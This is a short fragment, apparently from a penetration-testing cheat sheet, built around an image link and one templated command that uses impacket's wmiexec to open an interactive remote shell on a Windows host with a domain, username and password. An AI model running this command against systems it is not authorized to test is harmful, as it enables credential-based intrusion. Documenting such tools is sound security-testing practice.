 ### Use this impacket module to gain an interactive shell

#### 1) impacket-wmiexec.py DOMAIN/USERNAME:PASSWORD@IP_ADDRESS
